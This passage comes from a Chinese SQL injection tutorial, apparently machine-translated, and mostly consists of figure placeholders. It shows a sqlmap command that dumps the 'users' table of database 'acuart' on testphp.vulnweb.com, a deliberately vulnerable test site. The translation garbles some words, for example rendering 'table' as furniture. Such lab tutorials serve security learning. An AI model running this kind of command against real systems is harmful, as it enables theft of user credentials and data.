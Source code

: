 *![](img/107e7e6ae194fa3ca8a2f8801e3ea7b0.png)*

*图 4*

*我们得到了数据库中的表列表。我们要去的桌子:`users`。图 5。*

*![](img/53f44abb74468c1da21bb1e7bc78d8fd.png)*

*图 5*

***使用命令:** `#sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1)” -D acuart -T users --dump`图 6*

*![](img/7eedc5d0306dee1aede31c3b1e2df497.png)*
